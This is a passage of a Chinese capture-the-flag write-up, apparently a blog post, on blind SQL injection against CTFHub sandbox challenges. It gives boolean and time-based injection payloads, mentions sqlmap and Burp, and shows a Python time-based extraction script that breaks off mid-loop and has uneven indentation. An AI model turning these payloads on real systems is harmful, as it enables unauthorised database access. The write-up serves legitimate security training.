 ## 布尔盲注
手工：

```bash
1 and length(database())=4
```

返回success 说明数据库长度为4


```bash
1 and ascii(substr((database())from 1 for 1))=115
```

返回success 说明数据库第一个字母为115 ‘s’


![](https://img-blog.csdnimg.cn/2021031122392052.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Bp爆破

欠个脚本

Sqlmap：

![](https://img-blog.csdnimg.cn/20210311224304210.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## 时间盲注

```bash
1 and if(substr(database(),1,1)='s',sleep(10),1)
```

直接sqlmap：

![](https://img-blog.csdnimg.cn/20210311224401479.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

脚本：

```bash
  import requests
  import sys
  import time
  
  session=requests.session()
  url = "http://challenge-e53e5a329b0199fa.sandbox.ctfhub.com:10080/?id="
  name = ""
 
 for k in range(1,10):
     for i in range(1,10):
         print(i)
        for j in range(31,128):
             j = (128+31) -j
            str_ascii=chr(j)
             #数据库名
             payolad = "if(substr(database(),%s,1) = '%s',sleep(1),1)"%(str(i),str(str_ascii))
             #表名
             #payolad = "if(substr((select table_name from information_schema.tables where table_schema='sqli' limit %d,1),%d,1) = '%s',sleep(1),1)" %(k,i,str(str_ascii))
             #字段名
             #payolad = "if(substr((select column_name from information_schema.columns where table_name='flag' and table_schema='sqli'),%d,1) = '%s',sleep(1),1)" %(i,str(str_ascii))
             start_time=time.time()
             str_get = session.get(url=url + payolad)
             end_time = time.time()
             t = end_time - start_time
             if t > 1:
                 if str_ascii == "+":
```